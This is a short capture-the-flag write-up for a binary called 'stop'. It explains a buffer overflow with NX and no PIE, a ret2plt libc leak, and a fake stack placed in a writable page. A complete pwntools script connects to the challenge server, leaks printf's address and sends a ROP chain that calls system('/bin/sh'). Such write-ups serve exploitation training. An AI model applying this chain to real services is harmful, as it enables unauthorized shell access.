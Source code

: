 # Stop

This has been explained in countless writeups, so I won't go over it largely, but there's NX and no PIE. 
So we can use ret2plt, like always, to leak a libc address.  

### LARGE PROBLEM!  
Main is quite a complex function. 
For the purposes of buffer overflow, this is irrelevant to us.
However, if we just overwrite RBP with a bunch of As,
it means that errors will be caused at an instruction like `mov DWORD PTR [rbp-0x8], 0x9` , 
and whenever pop is called(after rsp is set to rbp). 
Thus, we must give rbp some form of authentic value so we can basically move the stack somewhere else. 
There is a page mapped read and write inside of the binary at around `0x602000-0x603000` .
We can set rbp to a value around here to create a nice fake stack, then execute a ret2libc attack.  
```python
from pwn import *
NUM_TO_RET = 282
padding = b'A' * NUM_TO_RET
e = ELF("./stop")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
poprdi = 0x0000000000400953 # pop rdi ; ret
poprsi = 0x0000000000400951
#p = e.process()
p = remote('p1.tjctf.org', 8001)
leak = flat(poprdi, e.got['printf'],poprsi, 0, 0, e.plt['printf'], 0x0000000000400747, word_size=64)
payload = padding[:-8] + p64(0x000000000602000 + 0x1000 - (0x20 + 0x8 * 10)) + leak
p.sendline(payload)
p.recvlines(9)
output = p.recvuntil("Which")[:-5]
output += b'\x00\x00'
printf = u64(output)
log.info(f"Printf: {hex(printf)}")
libcbase = printf - libc.symbols['printf']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
chain = flat(poprdi, next(libc.search(b"/bin/sh\x00")), poprsi, 0, 0, libc.symbols['system'], word_size=64)
payload = padding + chain
pause()
p.sendline(payload)
p.interactive()
```
